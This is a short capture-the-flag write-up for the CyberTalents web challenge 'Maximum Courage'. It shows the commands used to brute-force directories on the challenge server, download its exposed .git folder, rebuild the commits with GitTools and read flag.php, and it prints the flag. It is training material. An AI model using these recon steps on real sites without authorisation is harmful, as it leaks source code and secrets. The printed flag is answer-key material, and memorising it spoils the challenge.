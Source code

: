 # CyberTalents
## Web Security

### Challenge Name:
 [*Maximum Courage*](https://cybertalents.com/challenges/web/maximum-courage)
 
### Challenge Description
Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?

Link: [http://3.126.138.80/maximum/](http://3.126.138.80/maximum/)

### Answer
* Use Dirsearch tool to bruteforce directory of 'http://3.126.138.80/maximum/' 
```bash
python3 dirsearch.py -u http://3.126.138.80/maximum/
```
* We found an .git folder lets download it using wget
```bash
wget -r http://3.126.138.80/maximum/.git
```
* Use [GitTools](https://github.com/internetwache/GitTools) to extract commits and their content from this broken repository.
```bash
./extractor.sh ~/Desktop/maximum/ ~/Desktop/repo
```
* See flag.php file content
```bash
cat /home/darkknight/Desktop/repo/0-190de370286e98dda6813ac9c05f679ad60d9f9c/flag.php
```
* You got the Flag!!


### The Flag
 > be607453caada6a05d00c0ea0057f733
